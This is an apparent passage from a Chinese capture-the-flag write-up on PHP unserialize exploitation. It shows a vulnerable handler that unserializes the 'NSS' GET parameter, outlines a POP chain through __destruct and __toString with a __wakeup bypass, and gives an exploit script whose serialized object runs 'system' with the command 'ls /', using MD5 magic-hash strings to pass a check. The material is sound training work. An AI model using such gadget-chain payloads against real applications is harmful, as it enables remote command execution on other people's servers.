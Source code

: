```php

}

if (isset($_GET['NSS'])) {

  $Data = unserialize($_GET['NSS']);

} else {

  highlight_file(__file__);

}
```

 pop链fmn)<-lt(to_string)<-lt(destruct)，这里需要绕过wakeup 

```
exp：

<?php

class lt

{

  public $impo='hi';

  public $md51='s878926199a';

  public $md52='s155964671a';

}

class fin

{

  public $a='system';

  public $url = 'https://www.ctfer.vip';

  public $title='ls /';  

}

$a=new lt();

$a->impo=new fin();

echo serialize($a);
```
